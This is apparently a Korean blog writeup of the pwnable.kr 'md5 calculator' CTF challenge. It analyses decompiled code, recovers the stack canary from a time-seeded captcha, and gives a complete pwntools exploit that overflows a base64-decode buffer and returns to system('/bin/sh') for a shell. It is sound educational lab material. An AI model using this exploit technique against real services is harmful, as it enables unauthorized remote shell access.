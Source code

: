 ```yaml
---
layout: post
title: Writeup - md5 calculator
---
```


지금까지 pwnable.kr에서 풀어본 문제들 중 점수가 가장 높았고, 그만큼 시간이 많이 걸렸다.

# MD5 Calculator

문제는 다음과 같다.

>We made a simple MD5 calculator as a network service. 
>
> Find a bug and exploit it to get a shell.
>
> Download : http://pwnable.kr/bin/hash
>
> hint : this service shares the same machine with pwnable.kr web service
> 
> Running at : nc pwnable.kr 9002


## 관찰

nc로 pwnable.kr에 접속해 어떤 일이 일어나는지 관찰해보자.

```
- Welcome to the free MD5 calculating service -  
Are you human? input captcha : 124274294  
>>> 124274294  
Welcome! you are authenticated.  
Encode your data with BASE64 then paste me!  
>>> asdf  
MD5(data) : 97f9d0857f1490352d489b8048da4ac9  
Thank you for using our service.
```
랜덤해보이는 어떤 숫자를 그대로 입력하면 다음 단계로 넘어가고,  base64 형태로 입력을 주면 MD5로 encrypt된 결과가 나온다.

이제 hash 바이너리를 받아 IDA로 분석해보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v5; // [esp+18h] [ebp-8h]
  int v6; // [esp+1Ch] [ebp-4h]

  setvbuf(stdout, 0, 1, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("- Welcome to the free MD5 calculating service -");
  v3 = time(0);
  srand(v3);
  v6 = my_hash();
  printf("Are you human? input captcha : %d\n", v6);
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("wrong captcha!");
    exit(0);
  }
  puts("Welcome! you are authenticated.");
  puts("Encode your data with BASE64 then paste me!");
  process_hash();
  puts("Thank you for using our service.");
  system("echo `date` >> log");
  return 0;
}
```

```c
int my_hash()
{
  signed int i; // [esp+0h] [ebp-38h]
  int v2[8]; // [esp+Ch] [ebp-2Ch]
  unsigned int v3; // [esp+2Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  for ( i = 0; i <= 7; ++i )
    v2[i] = rand();
  return v2[4] - v2[6] + v2[7] + v3 + v2[2] - v2[3] + v2[1] + v2[5];
}
```

captcha 숫자가 사실은 `my_hash()`함수의 결과값이었으며, 이는 `rand()` 함수를 통해 만들어진 난수와 stack canary의 연산을 통해 나온 값임을 알 수 있다. 결과값을 이용해 어떻게든 stack canary값을 역추적할 수 있다면 이후 BOF가 가능할 것이다.

```c
unsigned int process_hash()
{
  signed int n; // ST14_4
  char *ptr; // ST18_4
  char v3; // [esp+1Ch] [ebp-20Ch]
  unsigned int v4; // [esp+21Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  memset(&v3, 0, 0x200u);
  while ( getchar() != '\n' )
    ;
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 0x400, stdin);
  memset(&v3, 0, 0x200u);
  n = Base64Decode(g_buf, (int)&v3);
  ptr = calc_md5((int)&v3, n);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return __readgsdword(0x14u) ^ v4;
}
```
`process_hash()`함수는 `fgets()`를 통해 사용자로부터 입력을 받고, 이를 Base64로 decode 해서 스택에 있는 `v3`에 저장한 다음 MD5로 변환한다.
여기서 자세히 보면 처음 `g_buf`에 입력을 받을때는 1024바이트를 받지만, base64로 decode된 결과를 저장하는 `v3`는 512바이트이므로 BOF가 가능하다는 것을 발견할 수 있다.

이번 문제를 풀면서 base64에 대해 처음으로 알게 되었는데, 자세한 설명은 [여기](https://effectivesquid.tistory.com/entry/Base64-%EC%9D%B8%EC%BD%94%EB%94%A9%EC%9D%B4%EB%9E%80)서 찾아볼 수 있다. 간단히 말하자면 base64는 ASCII 코드 중에서 잘 사용되는 64개의 문자를 골라서 64진법으로 나타내는 일종의 인코딩이다.

그러면 다음과 같은 단계로 문제를 풀 수 있게 된다.
1. captcha값을 이용해 stack canary값 역추적
2. base64로 인코딩된 payload를 입력으로 집어넣어 BOF


## 풀이

```python
from pwn import *
import ctypes, base64  
  
p = remote("localhost", 9002)  
libc = ctypes.CDLL("libc.so.6")  
  
context.log_level = "debug"  
  
p.recvuntil("Are you human? input captcha : ")  
seed = libc.time(None)  
captcha = int(p.recvuntil("\n"))  
p.sendline(str(captcha))  
  
libc.srand(seed)  
L = [None]*8  
for i in  range(8):  
	L[i] = libc.rand()  
canary = captcha - L[4] + L[6] - L[7] - L[2] + L[3] - L[1] - L[5]  
canary %= 0x100000000  
  
s = "A"*0x200 + p32(canary) + "B"*0xC  
  
s += p32(0x08048880)  
s += p32(0)  
s += p32(0x0804B0E0 + 720)  
  
p.recvuntil("me!\n")  
  
payload = base64.encodestring(s)  
payload = "".join(payload.split())  
payload += "/bin/sh\x00"  
p.sendline(payload)  
  
p.recvline()  
  
context.log_level = "info"  
p.interactive()
```

먼저 1번이 생각보다 쉽지 않았다. 가장 핵심이 되는 점은 `srand()`의 seed가 `time()` 이라는 사실이다. 서버의 시간을 정확히 알아야만 했다. 또한 seed를 알아도 C library의 `rand()` 값을 알기 위해서는 C의 사용이 필요했다.

내가 생각해낸 방법은 아니었지만, 결국 가장 간단한 방법은 아무 id로 pwnable.kr에 ssh로 접속해 로컬에서 문제를 푸는 것이었다. python의 ctypes 라이브러리를 이용해 `rand()`, `srand()`와 `time()` 함수를 그대로 사용해 문제를 해결할 수 있었다.

canary의 값을 구할 때 integer overflow를 python으로 구현해야 했는데, c_int 연산을 수행하고 싶었으나 방법을 몰라 단순히 0x100000000으로 나눈 나머지를 사용했다.

2번 항목에서 payload를 그대로 입력으로 넣지 않고 base64로 인코딩하는 점은 신선했다. `base64`라는 library를 사용해 쉽게 해결할 수 있었다.

BOF 과정에서 조금 헤맸는데, 처음에는 `fgets()`의 PLT를 사용해 /bin/sh를 입력하려고 했다. 하지만 함수의 입력으로 필요한 `stdin`을 인자로 넘겨줄 방법이 없다는 중요한 교훈을 얻었다. 결국 /bin/sh를 `g_buf`에 입력할 때 같이 넣어주는 간단한 방법으로 해결했다.


<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyOTg2ODc3OTYsLTE5MDYzNDYyMCwtMT
YyMTEyNzU2MSwtNDMxMjM5MDU3XX0=
-->
